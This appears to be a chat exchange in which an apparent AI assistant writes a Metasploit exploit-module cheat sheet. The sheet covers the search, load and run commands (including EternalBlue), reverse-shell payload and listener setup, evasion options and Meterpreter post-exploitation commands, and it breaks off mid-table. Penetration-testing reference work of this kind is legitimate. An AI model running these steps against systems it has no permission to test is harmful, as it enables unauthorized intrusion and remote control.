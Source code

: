 
Metasploit **exploit modules** are pre-built scripts or payloads designed to take advantage of vulnerabilities in software, systems, or networks. These modules are part of the **Metasploit Framework (MSF)**, a penetration testing tool used for security assessments and ethical hacking.

### Key Features of Exploit Modules:
1. **Target-Specific Exploits** – They focus on known vulnerabilities in operating systems, applications, or services (e.g., EternalBlue for Windows SMB).
2. **Payload Delivery** – They often include or work with payloads (like reverse shells) to execute commands post-exploitation.
3. **Customization** – Users can configure options such as target IP, port, and exploit parameters.
4. **Integration with Auxiliary Modules** – Used alongside scanners, fuzzers, and post-exploitation tools.
5. **Automation** – Simplifies exploitation by handling complex attack chains.

### Example Commands:
```bash
use exploit/windows/smb/ms17_010_eternalblue  
set RHOSTS <target_IP>  
exploit  
```

Create a cheat sheet extensive for further ellaboration


# **Metasploit Exploit Modules Cheat Sheet**  

This cheat sheet provides an in-depth reference for using **Metasploit exploit modules**, including key commands, workflow, and advanced techniques.  

---

## **1. Understanding Exploit Modules**  
Exploit modules are scripts that leverage vulnerabilities to gain unauthorized access or execute arbitrary code.  

### **Types of Exploits**  
| Type | Description | Example Module |
|------|------------|----------------|
| **Remote Exploits** | Target vulnerabilities over a network | `exploit/multi/http/struts2_code_exec` |
| **Local Exploits** | Require prior access to the system (privilege escalation) | `exploit/linux/local/sudo_baron_samedit` |
| **Client-Side Exploits** | Target user applications (e.g., browsers, PDF readers) | `exploit/windows/fileformat/adobe_pdf_embedded_exe` |
| **Web App Exploits** | Attack web servers, CMS, APIs | `exploit/unix/webapp/wp_admin_shell_upload` |

---

## **2. Basic Workflow for Using Exploits**  

### **Step 1: Search for an Exploit**
```bash
search type:exploit <keyword>  # e.g., search type:exploit eternalblue
```

### **Step 2: Select & Load the Module**
```bash
use exploit/<path_to_module>   # e.g., use exploit/windows/smb/ms17_010_eternalblue
```

### **Step 3: Configure Required Options**
```bash
show options                  # View required settings
set RHOSTS <target_IP>       # Set target IP(s)
set RPORT <port>             # Set port if non-default
set PAYLOAD <payload_path>   # Optional: Override default payload (e.g., windows/x64/meterpreter/reverse_tcp)
```

### **Step 4: Run the Exploit**
```bash
exploit                      # Launch the exploit
run                          # Alternative command
```

---

## **3. Advanced Configuration & Techniques**

### **Payload Customization**
- List available payloads:
  ```bash
  show payloads  
  ```
- Set a custom payload:
  ```bash
  set PAYLOAD windows/meterpreter/reverse_tcp  
  set LHOST```
Continue from above append but dont start from begining

 Here's the continuation of your Metasploit Exploit Modules Cheat Sheet, focusing on payload customization and advanced techniques:

---

### **Payload Customization (Continued)**
```bash
set LHOST <your_IP>          # Set listener IP (for reverse shells)
set LPORT <custom_port>      # Set listener port
```

### **Exploit Reliability & Evasion**
- Check exploit reliability:
  ```bash
  check                     # Test if target is vulnerable (not all modules support this)
  ```
- Evasion techniques:
  ```bash
  set EnableContextEncoding true   # Obfuscate payload  
  set DisablePayloadHandler true   # Skip automatic handler setup  
  ```

### **Multi-Handler for Payloads**
If payload execution is delayed, manually start a handler:
```bash
use exploit/multi/handler  
set PAYLOAD <matching_payload>  
set LHOST <your_IP>  
set LPORT <port>  
exploit -j                 # Run as a job
```

---

## **4. Post-Exploitation with Meterpreter**  

After successful exploitation (if using Meterpreter):  

| Command | Description |
|---------|-------------|
| `sysinfo` | View system information |
| `getuid` | Check current user privileges |
| `shell` | Drop into a system shell |
| `upload /local/file C:\\path` |
```
